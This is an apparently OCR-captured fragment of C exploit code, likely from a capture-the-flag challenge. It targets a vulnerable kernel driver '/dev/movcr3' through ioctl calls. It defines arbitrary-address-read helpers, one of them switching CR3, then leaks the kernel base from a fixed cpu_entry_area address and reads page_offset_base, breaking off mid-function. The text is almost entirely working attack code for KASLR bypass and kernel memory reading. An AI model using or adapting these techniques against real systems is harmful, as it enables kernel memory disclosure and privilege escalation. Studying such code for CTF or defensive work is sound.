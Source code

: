 ```c
struct ioctl_read_kernel_arg {
    size_t dst;
    size_t src;
    size_t n;
};

struct ioctl_read_user_arg {
    void *dst;
    void *src;
    size_t cr3_from;
    size_t cr3_to;
};

int fd;
void aar(void *buf, void *addr, size_t n)
{
    struct ioctl_read_kernel_arg data = {
        .dst = buf,
        .src = addr,
        .n = n
    };

    if (ioctl(fd, IOCTL_READ, &data)) {
        printf("[IOCTL_READ] Failed :(\n");
        exit(1);
    }
}

int aar_cr3(void *dst, void *src, size_t cr3_from, size_t cr3_to) {
    struct ioctl_read_user_arg data = {
        .dst = dst,
        .src = src,
        .cr3_from = cr3_from,
        .cr3_to = cr3_to
    };
    if (ioctl(fd, IOCTL_READ_WITH_CR3, &data)) {
        printf("[IOCTL_READ_WITH_CR3] Failed :(\n");
        exit(1);
    }
}

int main()
{
    size_t kbase = 0;
    void *mm;
    size_t pgd;
    char buf[0x1000] = {0,};
    long flag[100] = {0, };
    void *pagetable_cocay;
    void *pagetable_current;
    void *phy_cocay;
    void *phy_current;
    size_t page_offset_base = 0;
    fd = open("/dev/movcr3", O_RDWR);
    if (fd == -1)
        fatal("open");

    aar(buf, (void *)0xfffffe000000000c, 0x10);
    
    kbase = *(size_t *)&buf[0x8] - 0x1008e03;
    printf("[*] kbase : 0x%lx\n", kbase);

    aar(&page_offset_base, kbase + 0x17c01f8, 0x8);
```